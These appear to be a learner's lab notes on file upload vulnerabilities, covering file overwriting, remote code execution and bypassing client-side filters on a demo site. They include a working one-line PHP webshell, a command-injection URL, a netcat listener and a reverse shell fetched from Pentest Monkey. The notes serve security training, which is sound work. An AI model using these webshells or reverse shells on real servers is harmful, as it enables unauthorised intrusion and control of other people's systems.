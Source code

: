 be the way to **Remote Code Execution(RCE)**

vulns:
* Overwriting existing files
* Upadloing & executing shells
* Bypassing Client-Side filtering
* Bypassing Server-Side filtering
* Fooling content type validation checks

## Methodology
**enumeration is key**

looking source code to find client-side filtering vuln
scanning with a directory bruteforcer : `sudo apt install gobuster`


## Overwriting Existing Files
when files are uploaded to server, server should ensure the file will not overwrite anything which alreading exists on server.

Common practice:
* Assign file with a new name or random name

### if we don't have overwriting check
we found the website display the image with `images/spaniel.jpg`
![](https://i.imgur.com/9FNtNHG.png)

if we have website like this, we can upload our `spaniel.jpg` to overwriting existing file as attack
![](https://i.imgur.com/89xgC1m.png)

## Remote Code Execution
RCE tends to be uploading a program with same language as back-end like PHP.

basic way:
* webshells
* reverse shells

A fully featured reverse shell is our ideal goal for an attacker.
But webshell may be the only option available.

### Web shells
if we have a website like this
![](https://i.imgur.com/aM0IIQc.png)

we can start with gobuster scan
![](https://i.imgur.com/UEmOcxL.png)

we can found our uploads might go go `/uploads`
and after we uploaded something, we can go to `http://demo.uploadvulns.thm/uploads` to check the result\

![](https://i.imgur.com/cRDq9DL.png)

a simple webshell in PHP:
```php
<?php
    echo system($_GET["cmd"]);
?>
```

and we can use URL parameter to execute some command like this:
`http://demo.uploadvulns.thm/uploads/webshell.php?cmd=id;whoami;ls`
it would execute 
```bash
$ id
$ whoami
$ ls
```

### Reverse Shells
using ubiquitous *Pentest Monkey reverse shell* here

we can get the php payload [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

remember to change the ip in `php-reverse-shell.php`
![](https://i.imgur.com/cxGA4Bd.png)


and we start our Netcat listener:
```bash
$ nc -lvnp 1234
```

we upload the reverse shell file and we can navigating to `http://demo.uploadvulns.thm/uploads/shell.php`, starting the shell

finally we get a fully shells in our netcat
![](https://i.imgur.com/vZoBDtm.png)



## Filtering

* client-side filtering would run in our browser.
* Filtering occurs before the file uploaded to the server
* javascript is ubiquitous client-side scripting language.

Filtering kinds:
* Extension Validation : identify the contents of a file
	* Blacklist Extension
	* Whitelist Extension
* File Type Filtering
	* **Multipurpose Internet Mail Extension**(MIME) **validation** : transfer attach over email or HTTP(S)
	* **Magic number validation**
* File Name filtering
* File Length filtering out null byte
* Flie Content filtering

### Client-side
* Turn off javascript in browser
* Intercept & modify incoming page : using Burpsuite before the web page is loaded
* Intercept & modify file upload